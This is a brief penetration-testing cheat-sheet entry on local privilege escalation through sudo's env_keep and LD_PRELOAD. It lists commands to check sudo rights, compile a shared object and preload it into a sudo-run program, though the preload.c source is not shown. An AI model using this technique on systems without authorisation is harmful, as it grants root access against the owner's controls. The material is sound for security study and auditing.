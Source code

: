 # LD_PRELOAD
***

- You can configure sudo to inherit specific environment variables from the user's environment. To determine which environment variables are inherited, examine the **env_keep** options.
```sh
sudo -l
```
- **LD_PRELOAD** is an environment variable that, when set, loads a shared object before any others when a program is executed. You can create a shared object from code contained in a file named preload.c
```sh
gcc -fPIC -shared -nostartfiles /path/to/preload.c -o /tmp/preload.so
```

- Set the LD_PRELOAD environment variable to the full path of the newly created shared object.
```sh
sudo LD_PRELOAD=/tmp/preload.so nano
```

- Execute one of the programs that you have permission to run with sudo
